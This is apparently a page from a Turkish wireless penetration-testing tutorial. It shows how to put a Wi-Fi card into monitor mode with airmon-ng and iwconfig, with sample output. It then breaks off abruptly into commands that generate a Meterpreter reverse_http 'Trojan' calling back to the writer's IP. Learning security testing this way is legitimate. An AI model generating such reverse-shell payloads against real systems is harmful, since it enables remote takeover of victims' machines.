 ```
>>> wlan0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 192.168.1.105  netmask 255.255.255.0  broadcast 192.168.1.255
        ether 82:b3:a4:1e:dd:08  txqueuelen 1000  (Ethernet)
        RX packets 11961  bytes 1369251 (1.3 MiB)
        RX errors 0  dropped 2  overruns 0  frame 0
        TX packets 1262  bytes 228105 (222.7 KiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
```
### Monitor ve Managed Mod
**Ufak bir not: `wlan0` ve `wlan0mon` argümanlarının cihazdan cihaza değişebileceğini lütfen unutmayın :innocent: Kendi ağ arayüzlerinizi listelemek için `ifconfig` kullanabilirsiniz** :innocent: <br>
**Monitor Mode:** herhangi bir ağa bağlanmadan pasif olarak ilgili ağdaki tüm trafiği izlememize olanak sağlayan mod. <br>
**Managed Mode:** istemcimizin bir ağa bağlanarak hizmet aldığı mod. <br>
##### Mod Değiştirmek İçin 1. Yöntem (airmon-ng)
- `airmon-ng start wlan0` ile monitör mod'a geçebiliriz.
- `ifconfig` ile veya `iwconfig wlan0mon` ile monitör mod'a geçip geçmediğimize bakabiliriz.
- `airmon-ng stop wlan0mon` ile geri managed mod'a geçebiliriz.
```
# airmon-ng start wlan0
>>> Found 2 processes that could cause trouble.
Kill them using 'airmon-ng check kill' before putting
the card in monitor mode, they will interfere by changing channels
and sometimes putting the interface back in managed mode

    PID Name
    909 wpa_supplicant
  16148 NetworkManager

PHY     Interface       Driver          Chipset

phy0    wlan0           ath9k           Qualcomm Atheros QCA9565 / AR9565 Wireless Network Adapter (rev 01)

                (mac80211 monitor mode vif enabled for [phy0]wlan0 on [phy0]wlan0mon)
                (mac80211 station mode vif disabled for [phy0]wlan0)


# iwconfig wlan0mon
>>> wlan0mon  IEEE 802.11  Mode:Monitor  Frequency:2.462 GHz  Tx-Power=16 dBm   
          Retry short limit:7   RTS thr:off   Fragment thr:off
          Power Management:off


# airmon-ng stop wlan0mon
>>> PHY     Interface       Driver          Chipset

phy0    wlan0mon        ath9k           Qualcomm Atheros QCA9565 / AR9565 Wireless Network Adapter (rev 01)

                (mac80211 station mode vif enabled on [phy0]wlan0)

                (mac80211 monitor mode vif disabled for [phy0]wlan0mon)
```
##### Mod Değiştirmek İçin 2. Yöntem (iwconfig)
- `ifconfig wlan0 down` komutu ile ilgili ağ arayüzümüzü servis dışı bırakırız
- `iwconfig wlan0 mode monitor` ilgili ağ arayüzümüzü **monitor** moda geçiririz
- `ifconfig wlan0 up` ilgili ağ arayüzümüzü tekrar devreye sokarız
- `iwconfig wlan0` ile ilgili ağ arayüzümüzün modunu kontrol edebiliriz
```
# ifconfig wlan0 down
```

[python/meterpreter/rev_http>>]: set LHOST 192.168.1.87 # LHOST değişkenini set ediyoruz, kendi IP adresimiz
[python/meterpreter/rev_http>>]: set LPORT 8080
[python/meterpreter/rev_http>>]: generate # Trojan'ı oluşturuyoruz, bize çıktı olarak nereye oluşturduğunu verecektir